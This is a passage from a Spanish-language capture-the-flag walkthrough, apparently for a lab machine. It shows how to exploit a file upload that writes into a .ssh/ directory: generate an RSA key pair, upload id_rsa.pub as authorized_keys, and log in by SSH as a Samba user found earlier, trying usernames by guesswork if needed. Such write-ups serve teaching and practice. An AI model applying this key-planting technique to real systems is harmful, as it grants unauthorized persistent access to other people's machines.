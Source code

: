 ```
Finished
===============================================================
```

Vemos que hay un `/readme.txt`, si leemos el `.txt` veremos lo siguiente.

```
It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Por lo que si lo que se sube, se sube a la carpeta de `.ssh/` podremos hacer lo siguiente.

## Subir clave publica (id\_rsa.pub y authorized\_keys)

Copiaremos nuestra `id_rsa.pub` a nuestro directorio actual.

Si no tenemos una `Clave privada y publica` haremos lo siguiente.

```shell
ssh-keygen -t rsa -b 4096
```

Una vez creadas las claves, haremos lo siguiente.

```shell
cp ~/.ssh/id_rsa.pub .
```

Ahora creamos el archivo `authorized_keys` con el contenido del `id_rsa.pub`.

```shell
cat id_rsa.pub > authorized_keys
```

Una vez teniendo los archivos, subiremos esos dos archivos mediante la pagina.

Una vez seleccionados los 2 archivos y subidos correctamente (Tendra que ponerte este mensaje en la pagina...)

```
Tipo MIME detectado: text/plain
Nombre del archivo subido: id_rsa.pub
Archivo subido correctamente.

Tipo MIME detectado: text/plain
Nombre del archivo subido: authorized_keys
Archivo subido correctamente.
```

## SSH con id\_rsa

Nos conectaremos mediante `ssh` con nuestra `id_rsa` privada y poniendo el usuario que vimos anteriormente en le `enum4linux` de la siguiente forma (En tal caso de que no supieras el usuario seria ir probando hasta que te dejara entrar con uno de ellos).

```shell
ssh -i ~/.ssh/id_rsa passsamba@<IP>
```
